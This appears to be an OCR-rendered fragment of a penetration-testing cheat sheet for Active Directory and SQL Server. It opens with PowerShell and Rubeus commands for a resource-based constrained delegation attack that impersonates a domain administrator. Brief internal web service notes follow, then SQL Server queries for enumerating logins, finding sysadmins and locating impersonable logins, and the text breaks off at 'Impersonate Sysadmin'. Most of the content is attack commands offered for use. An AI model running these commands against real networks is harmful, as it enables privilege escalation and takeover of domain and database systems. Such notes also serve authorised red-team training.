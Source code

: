 ```powershell

New-MachineAccount -MachineAccount my -Password $(ConvertTo-SecureString '123' -AsPlainText -Force)

ipmo .\Microsoft.ActiveDirectory.Management.dll

Set-ADComputer red09 -PrincipalsAllowedToDelegateToAccount my$ -Server [DC IP] -Verbose

rubeus.exe s4u /user:my$ /rc4:…… /impersonateuser:administrator /msdsspn:CIFS/red09.red.com /ptt
```
### Internal Web Service

If it is not accessible directly, use SOCKS to access it.

Any computer/users' name contain "web", "svc", etc.

Send a phishing email

Send a document

Execute command

Ping a host

DevOps


### SQL Server

- Administrative Logins and Users

sa: Instance Level

dbo: Database level

- Database
```sql
select name from master..sysdatabases;
```
- Tables
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’;
```
- Column
```sql
select name from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')
```
- User/login
```sql
select user_name(); //Server Login Name

select system_user; //Database User Name

select * from master..syslogins;
```
- Change Password
```sql
ALTER LOGIN webapp  WITH PASSWORD = 'Passw0rd';
```
- SQL Admin
```sql
SELECT IS_SRVROLEMEMBER('sysadmin')

SELECT NAME from master..syslogins where SYSADMIN=1;
```
- Login can be impersonated
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```
- Impersonate Sysadmin